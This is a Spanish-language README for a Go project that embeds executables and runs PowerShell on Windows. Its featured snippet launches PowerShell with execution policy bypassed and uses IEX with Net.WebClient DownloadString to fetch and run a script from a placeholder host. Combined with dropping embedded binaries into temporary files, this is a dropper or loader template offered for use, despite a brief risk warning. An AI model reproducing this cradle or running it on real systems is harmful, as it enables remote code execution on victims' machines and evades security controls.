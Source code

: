 # Proyecto: Ejecución de Comandos PowerShell y Embebido de Ejecutables en Go

## Descripción

Este proyecto demuestra cómo ejecutar comandos de PowerShell desde un programa en Go y cómo embeber y ejecutar archivos ejecutables dentro de un binario compilado. Además, se verifica la instalación de Python y sus módulos necesarios.

## Características

- Ejecución de comandos PowerShell desde Go.
- Uso de `embed.FS` para incluir archivos binarios en el ejecutable.
- Verificación e instalación de Python y módulos requeridos.
- Creación y ejecución de archivos temporales.
- Cross-compiling para Windows desde Linux/macOS.

## Requisitos

- Go instalado ([Descargar Go](https://go.dev/dl/))
- Python instalado y agregado al `PATH`
- Módulos de Python requeridos (verificación e instalación automática en el código)
- PowerShell en sistemas Windows

## Instalación

Clona este repositorio:

```sh
git clone https://github.com/tu-usuario/tu-repo.git
cd tu-repo
```

Compila el ejecutable para Windows:

```sh
GOOS=windows GOARCH=amd64 go build -o program.exe
```

O compila directamente en Windows:

```sh
go build -o program.exe
```

## Uso

Ejecuta el programa en Windows:

```sh
./program.exe
```

Si estás ejecutando en un entorno de desarrollo, asegúrate de que PowerShell esté disponible y que Python tenga los módulos requeridos.

## Código Destacado

### Ejecución de PowerShell desde Go

```go
cmd := exec.Command("powershell", "-ExecutionPolicy", "Bypass", "-NoProfile", "-Command",
    "IEX (New-Object Net.WebClient).DownloadString('http://Local_IP/powershellfile.txt')")
output, err := cmd.CombinedOutput()
if err != nil {
    fmt.Println("Error ejecutando el comando:", err)
    return
}
fmt.Println("Salida del comando:", string(output))
```

### Verificación e Instalación de Python y Módulos

```go
func EnsurePythonInstalled() {
    cmd := exec.Command("python", "--version")
    err := cmd.Run()
    if err != nil {
        log.Fatalf("Python no está instalado o no está en el PATH.")
    }
    fmt.Println("Python está instalado.")
}
```

## Seguridad y Consideraciones

- **Advertencia**: Ejecutar comandos remotos de PowerShell puede ser riesgoso y debe hacerse solo en entornos controlados.
- **Revisión del código**: Antes de ejecutar cualquier script, revisa el código para evitar ejecución de comandos maliciosos.
- **Firewall y antivirus**: Algunos antivirus pueden bloquear la descarga y ejecución de scripts remotos.

## Licencia

Este proyecto está bajo la licencia MIT. Puedes ver más detalles en el archivo `LICENSE`.

## Contacto

Si tienes dudas o sugerencias, puedes abrir un issue en el repositorio o contactarme en [correo@example.com](mailto:correo@example.com).

